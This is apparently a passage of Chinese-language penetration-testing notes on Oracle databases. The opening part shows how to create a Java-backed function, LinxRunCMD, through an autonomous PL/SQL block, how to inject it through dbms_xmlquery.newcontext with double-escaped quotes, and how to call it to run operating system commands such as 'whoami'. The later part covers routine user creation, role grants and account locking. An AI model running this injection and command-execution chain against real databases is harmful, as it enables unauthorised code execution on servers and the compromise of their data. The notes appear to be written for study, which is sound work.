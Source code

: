 
```python
declare 
   PRAGMA AUTONOMOUS_TRANSACTION;
begin 
   execute immediate 'create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''LinxUtil.runCMD(java.lang.String) return String'';'; 
   commit; 
end;
```

两个单括号相当于对一个单括号的转义

```python
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;
```

那么两个单括号里面使用四个括号就是二重转义了（）.![image.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1703811752305-d11f80bc-ae3e-4038-9f7f-1e08e25a3821.png#averageHue=%23181818&clientId=ueb947172-4289-4&from=paste&height=184&id=ue35bbed3&originHeight=166&originWidth=1102&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=16387&status=done&style=none&taskId=u5de345ff-0b66-4c1a-bf10-630827e28bb&title=&width=1224.4444768811459)查询对象是否存在

```python
select OBJECT_ID from all_objects where object_name ='LINXRUNCMD';
```

```python
select linxruncmd('whoami') from dual;
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1703811764501-4949d7f7-a3c3-49be-b597-48f93a6f7490.png#averageHue=%23131313&clientId=ueb947172-4289-4&from=paste&height=128&id=u6326a779&originHeight=115&originWidth=721&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=7112&status=done&style=none&taskId=u5b96dc85-565d-486d-98f8-acd96b9dc70&title=&width=801.1111323333087)成了.
大G老师如是说:DUAL 是 Oracle 数据库中的一个特殊表，它通常包含一行一列的数据。DUAL 表是一个虚拟表，不存储任何实际数据，但是它在 Oracle SQL 查询和 PL/SQL 中经常被用作一种手段。
不管咋说,查啥,都要指定这个表,算是Oracle的一个特性吧.
## 用户管理

### 一般管理

创建用户

```python
CREATE USER username IDENTIFIED BY password;
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1703811791068-3630c053-3665-499b-95ad-06becdf7f741.png#averageHue=%23121212&clientId=ueb947172-4289-4&from=paste&height=108&id=u10441d11&originHeight=97&originWidth=652&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=4317&status=done&style=none&taskId=ua730e04f-2751-45f3-b592-d9a56707324&title=&width=724.4444636356689)授授予角色

```python
SELECT * FROM DBA_ROLES;#查看拥有的撅色
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1703811809090-f2d42cc9-13f8-45ab-a6d2-75dd97070e84.png#averageHue=%23181818&clientId=ueb947172-4289-4&from=paste&height=308&id=u4e341a31&originHeight=277&originWidth=678&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=20319&status=done&style=none&taskId=u07210477-bd69-4b25-aa8b-ac4ce9e19bf&title=&width=753.333353289852)
```python
GRANT role_name TO "1llstrious";
GRANT CWM_USER TO illustrious;
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1703811821047-2010a691-4e6e-4f79-9298-656189fb244a.png#averageHue=%23151515&clientId=ueb947172-4289-4&from=paste&height=90&id=ud40a12ae&originHeight=81&originWidth=376&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=3943&status=done&style=none&taskId=u03fa9ab1-98a0-4c33-936f-916ed1f4ebf&title=&width=417.7777888451096)
```python
SELECT * FROM DBA_TAB_PRIVS where GRANTEE = 'SYS';
```
```python
ALTER USER illustrious ACCOUNT LOCK;
ALTER USER illustrious ACCOUNT UNLOCK;
```
